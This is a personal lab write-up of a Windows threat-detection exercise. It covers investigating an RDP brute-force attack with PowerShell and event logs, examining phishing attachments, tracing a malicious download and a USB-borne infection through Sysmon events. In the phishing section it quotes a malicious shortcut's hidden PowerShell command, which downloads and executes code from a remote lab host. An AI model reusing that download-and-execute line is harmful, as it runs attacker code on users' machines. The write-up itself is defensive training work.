


# **Windows Threat Detection 1**

## **Detecting RDP Breach:**

I have a log file: **`C:\Users\Administrator\Desktop\Practice\RDP Case\RDP-Security.evtx`**

In this file, I have to analyse the logs of the RDP breach:

There are lots of logs, and it is very hard to analyze it from the Event Viewer, so I used PowerShell:

1. I used the following command to assign the log location to the `logPath` variable:
    
    ```bash
    $logPath="C:\Users\Administrator\Desktop\Practice\RDP Case\RDP-Security.evtx"
    ```
    
2. Then, I used the following command to count the occurrences of each user being brute-forced:
    
    ```bash
    Get-WinEvent -Path $logPath  | Where-Object{$_.id -eq 4625} | Select-Object @{Name='TargetUserName'; Expression={$_.Properties[5].Value}} | Group-Object TargetUserName | Sort-Object Count -Descending | Select-Object Name,Count
    ```
    
    
    
3. Now, I know the most brute-forced user is **`Administrator`**. I will check for the successful login:
    1. I used the Windows Event Viewer.
    2. Used a filter for event ID 4624. 
    3. There are only 8 logs to check one by one.
4. I got the IP address of the attacker:
    
    
    
5. To get the real Workstation Name (hostname) of the threat actor, I checked earlier logs for logon type 3 (Network) and found it.
    
    
    

## Initial Access via Phishing:

I have 3 phishing attachments: **`C:\Users\Administrator\Desktop\Practice\Phishing Case 1-3`**

In the Case 1 folder, I discovered a DOS executable file. If the user runs the executable, it opens the command prompt and executes the malware.


In the Case 2 folder, I saw the zip file and extracted it, and it has two files: a PNG and a shortcut:

1. To check whether it is malicious or not, I checked the properties of the file, and I got the path:
    
    ```bash
    C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -c iex (iwr -UseBasicParsing "http://wp16.hqywlqpa.thm:8000/cgi-bin/f").Content
    ```
    
2. From the URL, we can see that it is downloading the next-stage malware.
    
    
    

In the Case 3 folder, I immediately notice the double-extension file called **`best-cat.jpg.exe`**.


## **Detecting Malicious Download:**

I have the logs at **`C:\Users\Administrator\Desktop\Practice\Phishing Case 3\Phishing-Sysmon.evtx`**

1. To which file did the user download via the web browser:
    
    I filtered the logs by event ID 11 and checked the logs.
    
    
    
2. To find which folder the user unarchived the suspicious file:
    
    I know the file was downloaded on `2025–05–20 18:58:28.709`
    
    So, I checked the logs after that time, and I got the path.
    
    
    
3. To find out what the process ID is of the launched phishing malware:
    
    I checked the logs after the file was unarchived for Event ID 1, and the suspicious file was best-cat.jpg.exe.
    
    
    
4. Finally, to find which malicious domain the malware tries to connect to:
    
    I filtered with event ID 22 and checked the logs after the file was executed.
    
    
    

## **Detecting an Infected USB:**

I have the logs at **`C:\Users\Administrator\Desktop\Practice\USB Case\USB-Sysmon.evtx`**

1. To find which USB file was launched by the user:
    
    I filtered the logs by event ID 1 and checked them one by one.
    
    
    
2. To find which suspicious file the malware dropped to the disk:
    
    I checked the logs after the USB file was launched.
    
    
    
3. To find out to which other USB the malware propagates:
    
    I kept checking the logs after the file was launched. The malware moved from the E drive to the F drive.
    
    
    

---
